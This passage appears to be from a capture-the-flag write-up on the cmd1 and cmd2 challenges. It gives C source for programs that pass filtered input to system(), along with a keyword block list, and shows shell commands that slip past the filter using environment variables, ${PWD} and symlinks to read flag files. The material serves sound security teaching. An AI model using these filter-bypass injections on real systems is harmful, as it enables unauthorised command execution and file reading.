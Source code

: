 just pass every filtered text via environment variables.

```
cmd1@ubuntu:~$ export c=/bin/cat
cmd1@ubuntu:~$ export f=/home/cmd1/flag
cmd1@ubuntu:~$ ./cmd1 "\$c \$f"
mommy now I get what PATH environment is for :)
```

## 14. cmd2
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}
```
We could get ``/`` from ``${PWD}``
By using dynamic link, I was able to bypass the filter

```bash
cmd2@prowl:/tmp/jun2$ ln -s /bin/cat c
cmd2@prowl:/tmp/jun2$ ln -s /home/cmd2/flag f
```
```bash
cmd2@prowl:/$ ~/cmd2 "\${PWD}tmp\${PWD}jun2\${PWD}c \${PWD}tmp\${PWD}jun2\${PWD}f"
${PWD}tmp${PWD}jun2${PWD}c ${PWD}tmp${PWD}jun2${PWD}f
FuN_w1th_5h3ll_v4riabl3s_haha
```
